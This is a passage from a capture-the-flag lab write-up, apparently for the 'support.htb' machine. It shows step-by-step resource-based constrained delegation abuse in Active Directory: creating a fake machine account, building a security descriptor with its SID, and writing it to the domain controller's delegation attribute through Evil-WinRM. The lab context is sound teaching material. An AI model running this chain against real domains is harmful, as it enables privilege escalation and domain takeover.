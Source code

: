 ```
*Evil-WinRM* PS C:\Users\support\Documents> Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC   
```

It's empty!!

Armed with the above information, **we can create a fake computer object!** (Source: [Red Team Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#creating-a-new-computer-object))

```
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount fakeuser -Password $(ConvertTo-SecureString 'fakepassword' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = fakeuser$
Verbose: [+] Distinguished Name = CN=fakeuser,CN=Computers,DC=support,DC=htb
[+] Machine account fakeuser added
```

**Find it's SID:**
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer fakeuser 

[...]
name                   : fakeuser
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5105
[...]
```

**Create a new raw security descriptor for the `fakeuser` computer principal:** (Remember change the SID to your newly created fake user.)
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5105)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

```
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5105)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
```

**Applying the security descriptor bytes to the target machine::**
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
